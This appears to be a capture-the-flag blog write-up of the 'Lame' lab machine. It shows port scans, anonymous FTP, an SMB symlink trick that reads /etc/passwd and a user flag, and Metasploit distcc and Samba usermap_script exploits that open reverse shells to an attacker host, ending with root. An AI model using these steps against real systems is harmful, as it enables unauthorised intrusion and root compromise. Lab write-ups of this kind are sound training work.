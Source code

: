 ```yaml
---
title: Lame
date: 2020-05-31T08:00:28.000+00:00
toc: false
images: 
tags: []

---
```

### Initial Enumeration

1000 Common TCP port scan

```
sudo nmap -oN T-common 10.10.10.3

# Nmap 7.70 scan initiated Tue Jul  2 21:55:24 2019 as: nmap -oN T-common 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.23s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

# Nmap done at Tue Jul  2 21:55:38 2019 -- 1 IP address (1 host up) scanned in 13.34 seconds
```

100% TCP port scan

sudo nmap -p- -T4 -oN T-all 10.10.10.3

# Nmap 7.70 scan initiated Tue Jul  2 21:55:36 2019 as: nmap -p- -T4 -oN T-all 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.24s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

# Nmap done at Tue Jul  2 21:59:27 2019 -- 1 IP address (1 host up) scanned in 230.72 seconds

Detailed scan on all the open TCP ports

sudo nmap -sV -sC -p 21,22,139,445,3632 -oN O-Detailed 10.10.10.3

# Nmap 7.70 scan initiated Tue Jul  2 22:00:25 2019 as: nmap -sV -sC -p 21,22,139,445,3632 -oN O-Detailed 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.24s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.13
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h06m55s, deviation: 0s, median: 4h06m55s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name:
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-07-02T12:37:33-04:00
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  2 22:01:18 2019 -- 1 IP address (1 host up) scanned in 52.99 seconds

FTP file enumeration got me nothing.

Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:jtnydv): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp>

However the FTP Server vsFTPd 2.3.4 is vulnerable to remote code execution (MSF) as per my initial searchsploit search.

    vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)

However, running this exploit using Metasploit and trying to exploit the vulnerability manually didn't get me a shell.

### User Own

There are 2 ways to own the user in this box, as per my understanding.

#### Using SMB

I have read and write access in one of the SMB Shares.

smbmap -H 10.10.10.3 -u ""

[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.3...
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions
        ----                                                    -----------
        print$                                                  NO ACCESS
        tmp                                                     READ, WRITE
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS
        ADMIN$                                                  NO ACCESS

smbclient \\\\10.10.10.3\\tmp ""

Find all the users on the box

smb: \> symlink /etc/passwd pass
smb: \> get pass

cat pass | grep -vi 'false\|nologin\|sync'

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
makis:x:1003:1003::/home/makis:/bin/sh

`makis` as a user stuck out to me hence I tried making a `symlink` to the `/home/makis/user.txt` file and own user.

smb: \> symlink /home/makis/user.txt user
smb: \> ls
  .                                   D        0  Wed Jul  3 10:14:05 2019
  ..                                 DR        0  Mon May 21 00:06:12 2012
  .ICE-unix                          DH        0  Wed Jul  3 10:01:57 2019
  pass                                R     1549  Wed Mar 15 03:46:58 2017
  user                                R       33  Wed Mar 15 01:57:44 2017
  .X11-unix                          DH        0  Wed Jul  3 10:02:34 2019
  5170.jsvc_up                        R        0  Wed Jul  3 10:03:10 2019
  .X0-lock                           HR       11  Wed Jul  3 10:02:34 2019

                7282168 blocks of size 1024. 5678804 blocks available
smb: \> get user
getting file \user of size 33 as user (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)

As evident from the list of files, we have our user flag `69454***`

#### Using DistCC service

A simple searchsploit search for DistCC got me a metasploit RCE exploit entry `DistCC Daemon - Command Execution (Metasploit)`

msf5 > use exploit/unix/misc/distcc_exec
msf5 exploit(unix/misc/distcc_exec) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf5 exploit(unix/misc/distcc_exec) > exploit

[*] Started reverse TCP double handler on 10.10.14.13:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo pbbLnvIuNegIZaqi;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.10.14.13:4444 -> 10.10.10.3:55417) at 2019-07-03 10:12:30 +0530

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
cat /home/makis/user.txt
69454***

Using this method also we can get the user flag from the system, however this is not privileged and can not be leveraged to get root, however, this is a good and stable shell for further enumeration.

### Root Own

Owning root is a simple process in this box. Run an existing exploit `Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)` on the old samba service to get the root shell.

msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.13:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NohFWWf4R8eYZZsR;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "NohFWWf4R8eYZZsR\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.13:4444 -> 10.10.10.3:41230) at 2019-07-03 10:16:23 +0530

id
uid=0(root) gid=0(root)
cat /root/root.txt
92caa***

### Takeaway

My personal takeaway from this box was to enumerate all the running services and the their versions first before running into the manual enumeration. While solving this box I completely forgot about running samba service and wasted quite a while enumerating to privilege escalate my way to root using the daemon shell.